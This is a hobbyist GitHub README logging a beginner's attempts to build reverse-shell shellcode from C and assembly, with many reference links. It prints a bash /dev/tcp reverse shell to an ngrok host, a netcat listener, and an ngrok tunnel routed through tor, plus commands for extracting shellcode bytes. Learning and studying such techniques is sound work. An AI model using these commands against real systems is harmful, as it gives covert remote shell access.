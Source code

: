 # shell-noob

I'm a shell noob, so nothing exciting here.

I'm also new to asm and C, but hey, I'm sure I've done tricker stuff before (famous last words).




## Starting

So I started reading a neat little writeup on how to reverse shell bind from shellcode, how to extract the shellcode and create a runnner.

I'm new to this so it seemed to cover most of the basic concepts to get started, so I jumped in.

https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat




## The problem

The article shows a popular reverse bind with netcat, but I have the BSD variant installed on my rig - which has the `-e` flag removed for obvious security reasons.

But that's fine, more than this being a copy/paste exercise, I decided to see if I could reverse engineer my findings and apply an alternative shellcode.




## The alternative

I use ngrok to reverse proxy my ports to the outside world.
```
tor service start
proxychains ngrok tcp 31337
```

Create an open port to receive the reverse shell.
```
nc -n -vv -l -p 31337
```

Now kick off the reverse shell.
```
/bin/bash -c "/bin/bash -i >& /dev/tcp/0.tcp.ngrok.io/12345 0>&1"
```

Everything works fine... let's continue.




## Is injecting bash as a string possible in C?

After some initial googling I found it may not be possible to bind to /dev/tcp/x [1], as this is being done with some "magic bash"...

I might be able to fix this [3] by using execvp instead, just a wrapper for exec.

And it worked - reverse shell!




## Getting to assembly from C

This is the part I feared the most. I've zero experience with asm, the alternative syntax, debugging.
If this part goes wrong...

### Attempt 1 (a shortcut?)
Now I need to convert this to asm, so as per [2] I used `strace`;

```
strace -e execve ./bin/shellcode                      
execve("./bin/shellcode", ["./bin/shellcode"], [/* 120 vars */]) = 0
execve("/bin/bash", ["/bin/bash", "-c", "/bin/bash -i >& /dev/tcp/0.tcp.e"...], [/* 120 vars */]) = 0
/bin/bash: connect: Connection refused
/bin/bash: /dev/tcp/0.tcp.ngrok.io/12345: Connection refused
--- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_EXITED, si_pid=19295, si_uid=1000, si_status=1, si_utime=0, si_stime=0} ---
```
I can't see this working for me just yet...

### Attempt 2
Looking back at the original tutorial and code [4], I'm thinking I could do the same with my custom line, and just call execve.

Now I attempt to compile with the nasm utility;

```
nasm -felf32 -o ./bin/shell-code.o ./shell-code.asm
```
Unfortunately this didn't run, there must be errors... I now work towards turning this in to a "hello world" example.

### Attempt 3
Followed a SO, so going to try this... 
```
gcc -S input.c -o output.asm -masm=intel
```
Nope, did not work for me - [5] there are fundamental differences between NASM and TASM [6].


## Getting to Opcode from assembly

I'm using zsh so the original example threw me out a little, I made a quick fix...
```
for i in $(objdump -d ./bin/shell-code.o -M intel |grep "^ " |cut -f2); do echo -n '\\x'$i; done; echo
```

## Placing the Opcode in to a runner 

Lorem ipsum...


[1] https://stackoverflow.com/questions/44914538/execute-reverse-shell-using-execve

[2] http://www.arti-sec.com/article/create-shellcode-tcp-reverse-shell-slae

[3] https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp

[4] https://gist.githubusercontent.com/Morgawr/9852347/raw/37fafdbfab6684d4fb374c826a2c1bc628cbe2b0/netcat-shellcode.asm

[5] https://stackoverflow.com/questions/8406188/does-gcc-really-know-how-to-output-nasm-assembly

[6] https://stackoverflow.com/questions/137038/how-do-you-get-assembler-output-from-c-c-source-in-gcc


## Other

Some notes on building, 

### Building

```
gcc ./shell-code.c -o ./bin/shellcode
```

### The runner

It seems that many shellcode tutorials use a common program template or husk to run the shellcode / bytearray.

I've included this in `templates/`.



## Resources

Some good resources for beginning this.

The original post that got me thinking;
https://morgawr.github.io/hacking/2014/03/29/shellcode-to-reverse-bind-with-netcat

### Introductions to shellcoding
http://hackerforhire.com.au/part-1-disassembling-and-understanding-shellcode/
https://en.wikipedia.org/wiki/Shellcode
http://www.enderunix.org/docs/en/sc-en.txt
http://www.vividmachines.com/shellcode/shellcode.html
https://pentesterslife.blog/2017/11/01/x86_64-tcp-bind-shellcode-with-basic-authentication-on-linux-systems/

### Dealing with bash -c
https://stackoverflow.com/questions/14141007/c-executing-bash-commands-with-execvp
https://stackoverflow.com/questions/36022331/bash-i-dev-tcp-127-0-0-1-1234-01
https://stackoverflow.com/questions/16091382/pass-arguments-to-execve-program-in-shellcode

### Reversing shellcode to assembly
https://xorl.wordpress.com/2009/01/04/from-shellcode-to-assembly/
https://zeltser.com/convert-shellcode-to-assembly/
https://haiderm.com/convert-hex-assembly-using-simple-python-script/

### Tools
https://github.com/reyammer/shellnoob

### Other / miscellaneous

https://pentesterslife.blog/2017/11/01/x86_64-tcp-bind-shellcode-with-basic-authentication-on-linux-systems/
https://brennan.io/2015/01/16/write-a-shell-in-c/


